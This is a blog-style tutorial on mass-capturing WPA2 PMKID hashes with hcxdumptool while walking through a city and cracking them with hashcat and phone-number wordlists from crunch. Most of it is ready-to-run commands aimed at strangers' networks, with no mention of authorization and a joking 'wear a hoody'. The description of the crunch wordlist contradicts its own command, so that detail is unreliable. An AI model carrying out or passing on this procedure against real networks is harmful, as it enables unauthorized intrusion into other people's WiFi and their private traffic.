 # Cracking Wifi at Scale with hcxdumptool
Usually when a hacker wants to crack a WiFi password, he needs a full live four-way handshake between a client and the router, hoping the password entered by the client is the right one, this method of cracking wifi can be time consuming too since you need to wait for a client to actually attempts to connect to his router (usually we use deauthentication to accelerate the process).

All of this changed in 2018 when [atom's](https://hashcat.net/forum/thread-7717.html) accidentally discovered a new way to crack WPA2 while searching for new ways to crack the new WPA3 security standard (GO READ HIS RESEARCH !).

Atom's technique is clientless, making the need to capture a user's login in real time and the need for users to connect to the network at all **obsolete**. Furthermore, it only required the attacker to capture a single frame and **eliminate the wrong passwords and malformed frames that are disturbing the cracking process**.

This means we do not need to wait for people connecting to their routers for this attack to be successful. We just need a PMKID hash and try to crack it.

To crack a PMKID hash generated and what elements does it contain

![PMKID Hash](https://i.imgur.com/NlZfEOP.png)

The hash calculation might seem daunting at first glance but let us dive into it.

![](https://i.imgur.com/xx4Xlme.png)

**The PMK is computed as follows:**

![](https://i.imgur.com/zTGtXyD.png)

After a PMK was generated we can generate a PMKID.

**The PMKID is computed as follows :**

![](https://i.imgur.com/6oEJGPz.png)

![](https://i.imgur.com/ODQeVSz.png)

## Sniffing PMKID
To gather PMKID hashes, we need a wireless network interface that has monitor mode capabilities. Monitor mode allows packet capturing without having to associate with an access point.

For this i'll use the [AWUS036ACH from ALFA Network](https://www.alfa.com.tw/products/awus036ach?variant=36473965871176) which supports monitor mode and went inside the center of my city.

My machine is running arch linux (kernel 5.16.4-arch1-1), the instructions are pretty similar for debian based distributions.
#### Installing Drivers
```
git clone -b v5.6.4.2 https://github.com/aircrack-ng/rtl8812au
cd rtl8812au
make && sudo make install
```
#### Installing Hcxdumptool
```
sudo pacman -S hcxdumptool
```
#### Preparing Network
For the sniffing to work properly we will need to stop services that might interfere with hcxdumptool.
```
sudo systemctl stop wpa_supplicant
sudo systemctl stop NetworkManager
sudo airmon-ng check-kill
```

*Note that it is not required to start monitor mode prior to hcxdumptool execution, since hcxdumptool will automatically make the use of syscalls and turn the interface in monitor mode by itself.*
#### Starting the sniffing with hcxdumptool
```
sudo hcxdumptool -i wlan1 -o PMKID_CAP1.pcapng --disable_deauthentication --disable_client_attacks --enable_status=3
```

*Now wear a hoody, because you will get a PMKID of every network you cross by that is vulnerable to the attack*.

![](https://i.imgur.com/hM1pzNY.png)

## Cracking Time
Now time for the last part of this sniffing attack, we will extract the hashes from our pcapng capture with the hcxpcapngtool.
```
hcxpcapngtool -o Hashes.txt PMKID_CAP1.pcapng
```
This command will produce a hash file that each line takes on the following structure :
```
SIGNATURE*TYPE*PMKID/MIC*MACAP*MACSTA*ESSID***
```
#### Install Hashcat
Installing hashcat on arch can be easily done with the following command
```
sudo pacman -S hashcat
```

#### Start Cracking Procedure
You can generate a wordlists of all the phone network for a region identifier using crunch. If my region identifier is 450 then i would use the following command
```
crunch 12 12 0123456789 -t 450@@@@@@@@@ -o phones.txt
```
The preceding command will generate a wordlist (phones.txt) with phone numbers starting from 4500000000 all the way up to 4509999999.

A lot of people are using their phone numbers as password, you can easily crack these networks with this simple trick :)
